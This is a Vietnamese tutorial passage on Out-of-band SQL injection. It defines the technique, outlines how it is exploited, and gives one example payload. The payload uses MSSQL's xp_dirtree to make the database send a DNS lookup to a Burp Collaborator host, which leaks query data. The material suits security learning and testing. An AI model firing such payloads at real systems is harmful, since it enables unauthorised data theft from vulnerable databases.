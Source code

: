 ![Out-of-band SQLi](../img/Screenshot%202022-05-07%20161735.png)

# **3. Out-of-band SQLi**

### **3.1. Định nghĩa**

- Out-of-band SQLi sẽ **_chỉ hoạt động khi một vài tính năng nhất định được enabled trên Database Server_**. Kiểu tấn công này **_dựa vào khả năng tạo Network Connection thông qua một số giao thức như DNS hoặc HTTP để truyền dữ liệu tới tin tặc của Server_**.
- Kiểu tấn công SQLi này **_không phổ biến_**. Tin tặc thực hiện Out-of-band SQLi như giải pháp cuối cùng khi những kiểu tấn công trên không có tác dụng.

### **3.2. Khai thác Out-of-band SQLi**

- **_Gửi OAST Payload được thiết kế để kích hoạt tương tác mạng Out-of-band khi được thực thi trong một truy vấn SQL và giám sát mọi tương tác kết quả_**.
- **_Tùy thuộc vào SQL Injection, sử dụng các phương pháp khác nhau để trích xuất dữ liệu_**.

### **3.3. Ví dụ**

#### **a. Ví dụ 1**

Input

```
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a' --
```

Diễn giải

Tin tặc khiến cơ sở dữ liệu thực hiện DNS Lookup tới một External Domain chứa kết quả của một truy vấn SQL được inject, từ đó trích xuất dữ liệu. Trong một số trường hợp có thể trích xuất dữ liệu trực tiếp, nhưng cũng có thể phải sử dụng các câu lệnh điều kiện để hỏi Server, từ đó xây dựng lại dữ liệu.

